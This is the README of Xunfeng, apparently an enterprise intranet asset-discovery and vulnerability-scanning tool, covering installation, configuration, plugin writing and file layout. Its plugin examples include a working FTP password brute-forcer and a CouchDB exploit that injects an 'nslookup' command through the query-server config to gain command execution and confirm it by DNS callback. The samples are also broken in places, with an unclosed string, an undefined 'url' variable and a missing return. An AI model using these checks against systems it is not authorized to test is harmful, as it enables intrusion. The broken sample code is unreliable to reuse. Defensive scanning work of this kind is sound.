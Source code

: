 # 巡风 [![License](https://img.shields.io/aur/license/yaourt.svg)](https://github.com/ysrc/xunfeng/blob/master/LICENSE)
----------

**巡风**是一款适用于企业内网的`漏洞快速应急、巡航扫描`系统，通过搜索功能可清晰的了解内部网络资产分布情况，并且可指定漏洞插件对搜索结果进行快速漏洞检测并输出结果报表。

其主体分为两部分：`网络资产识别引擎`，`漏洞检测引擎`。

网络资产识别引擎会通过用户配置的IP范围`定期自动`的进行端口探测（支持调用MASSCAN），并进行指纹识别，识别内容包括：服务类型、组件容器、脚本语言、CMS。

漏洞检测引擎会根据用户指定的`任务规则`进行定期或者一次性的漏洞检测，其支持2种插件类型、标示符与脚本，均可通过web控制台进行添加。

如果你不是从公众号看过来的，可以[看下](http://mp.weixin.qq.com/s/sFDY8vzonIW2gAcw0CCkzQ)，说了一些部署的注意点。

## 安装指南

[![Python 2.7](https://img.shields.io/badge/python-2.7-yellow.svg)](https://www.python.org/) [![MyGet](https://sec-pic-ly.b0.upaiyun.com/xunfeng/static/MongoVersion.svg?a=1)](https://www.mongodb.com/download-center?jmp=nav)

国内镜像 https://code.aliyun.com/ysrc/xunfeng.git

* [Windows 安装指南](./docs/install/Windows.md)
* [OSX 安装指南](./docs/install/OSX.md)
* [Linux 安装指南](./docs/install/Linux.md)
* [Docker 安装指南](./docs/install/Docker.md)


## 配置指南
- 在配置-爬虫引擎-网络资产探测列表 设置内网IP段**（必须配置，否则无法正常使用,每个IP段最大限制为10个B段）**。
- 在配置-爬虫引擎-资产探测周期 设置计划规则。
- 可启用MASSCAN(探测范围为全端口)代替默认的端口探测脚本，需安装好MASSCAN后配置**程序完整绝对路径**，点击开启即可完成切换。
  MASSCAN需chmod +x 给root权限，请手动执行确保可用后开启。
- 其他配置根据自身需要进行修改。

## 插件编写
漏洞插件支持2种类型，标示符与python脚本，可以通过官方推送渠道安装或者自行添加。

**JSON标示符**

![](https://sec-pic-ly.b0.upaiyun.com/img/161220/261479B35BD86E479D6E40DAA990E700749CA50E.png)

**Python脚本**

插件标准非常简洁，只需通过 `get_plugin_info` 方法定义插件信息，`check`函数检测漏洞即可。

```python
# coding:utf-8

import ftplib

def get_plugin_info():  # 插件描述信息
    plugin_info = {
        "name": "FTP弱口令",
        "info": "导致敏感信息泄露，严重情况可导致服务器被入侵控制。",
        "level": "高危",
        "type": "弱口令",
        "author": "wolf@YSRC",
        "url": "",
        "keyword": "server:ftp",  # 推荐搜索关键字
    }
    return plugin_info

def check(ip, port, timeout): # 漏洞检测代码
    user_list = ['ftp', 'www', 'admin', 'root', 'db', 'wwwroot', 'data', 'web']
    for user in user_list:
        for pass_ in PASSWORD_DIC:  # 密码字典无需定义，程序会自动为其赋值。
            pass_ = str(pass_.replace('{user}', user))
            try:
                ftp = ftplib.FTP()
                ftp.timeout = timeout
                ftp.connect(ip, port)
                ftp.login(user, pass_)
                if pass_ == '': pass_ = "null"
                if user == 'ftp' and pass_ == 'ftp: return u"可匿名登录"
                return u"存在弱口令，账号：%s，密码：%s" % (user, pass_)  # 成功返回结果，内容显示在扫描结果页面。
            except:
                pass
```

此外系统内嵌了辅助验证功能:

> DNS：触发，nslookup randomstr IP，验证， http://ip:8088/randomstr ，返回YES即存在。
> HTTP：触发，http://ip:8088/add/randomstr ，验证， http://ip:8088/check/randomstr ，返回YES即存在。

使用例子:

```python
import urllib2
import random
import socket

def get_plugin_info():  # 插件描述信息
    plugin_info = {
            "name": "CouchDB未授权访问",
            "info": "导致敏感信息泄露，攻击者可通过控制面板执行系统命令，导致服务器被入侵。",
            "level": "高危",
            "type": "未授权访问",
            "author": "wolf@YSRC",
            "url": "",
            "keyword": "server:couchdb",  # 推荐搜索关键字
    }

def get_ver_ip():
    csock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
    csock.connect(('8.8.8.8', 80))
    (addr, port) = csock.getsockname()
    csock.close()
    return addr

def random_str(len):
    str1=""
    for i in range(len):
        str1+=(random.choice("ABCDEFGH1234567890"))
    return str(str1)

def check(ip,port,timeout):
    rand_str = random_str(8)
    cmd = random_str(4)
    server_ip = get_ver_ip()
    req_list = [
        ["/_config/query_servers/%s"%(cmd),'"nslookup %s %s>log"'%(rand_str,server_ip)],
        ["/vultest123",''],
        ["/vultest123/test",'{"_id":"safetest"}']
    ]
    for req_info in req_list:
        try:
            request = urllib2.Request(url+req_info[0],req_info[1],timeout=timeout)
            request.get_method = lambda: 'PUT'
            urllib2.urlopen(request)
        except:
            pass
    try:
        req_exec = urllib2.Request(url + "/vultest123/_temp_view?limit=11",'{"language":"%s","map":""}'%(cmd))
        req_exec.add_header("Content-Type","application/json")
        urllib2.urlopen(req_exec)
    except:
        pass
    check = urllib2.urlopen("http://%s/%s"%(server_ip,rand_str)).read()
    if 'YES' in check:
        return u"未授权访问"
```

## 流程演示视频

[![](https://sec-pic-ly.b0.upaiyun.com/xunfeng/static/intro.png)](https://sec-pic-ly.b0.upaiyun.com/xunfeng/xunfeng.mp4)


## 文件结构

    │  Config.py  # 配置文件
    │  README.md  # 说明文档
    │  Run.bat  # Windows启动服务
    │  Run.py  # webserver
    │  Run.sh    # Linux启动服务，重新启动前需把进程先结束掉
    │
    ├─aider
    │      Aider.py  # 辅助验证脚本
    │
    ├─db  # 初始数据库结构
    │
    ├─masscan  # 内置编译好的Masscan程序（CentOS win64适用），需要chmod+x给执行权限（root），若无法使用请自行编译安装。
    ├─nascan
    │  │  NAScan.py # 网络资产信息抓取引擎
    │  │
    │  ├─lib
    │  │      common.py 其他方法
    │  │      icmp.py  # ICMP发送类
    │  │      log.py  # 日志输出
    │  │      mongo.py  # 数据库连接
    │  │      scan.py  # 扫描与识别
    │  │      start.py  # 线程控制
    │  │
    │  └─plugin
    │          masscan.py  # 调用Masscan脚本
    │
    ├─views
    │  │  View.py  # web请求处理
    │  │
    │  ├─lib
    │  │      Conn.py  # 数据库公共类
    │  │      CreateExcel.py  # 表格处理
    │  │      Login.py  # 权限验证
    │  │      QueryLogic.py  # 查询语句解析
    │  │
    │  ├─static #静态资源目录
    │  │
    │  └─templates #模板文件目录
    │
    └─vulscan
        │  VulScan.py  # 漏洞检测引擎
        │
        └─vuldb # 漏洞库目录

扫描下方二维码关注YSRC公众号，回复自己的微信号+巡风，会有人拉你进巡风的微信讨论群。

![](http://mmbiz.qpic.cn/mmbiz/PAV8ewtdsKpkeG9VRYNhC76iacVSe3ichYiajictdF2Q34PQo7iaPV15jjGiaAev6SqpeK5maDvtAYUtqXEYUib4ljM3A/640?wx_fmt=jpeg&tp=webp&wxfrom=5&wx_lazy=1)
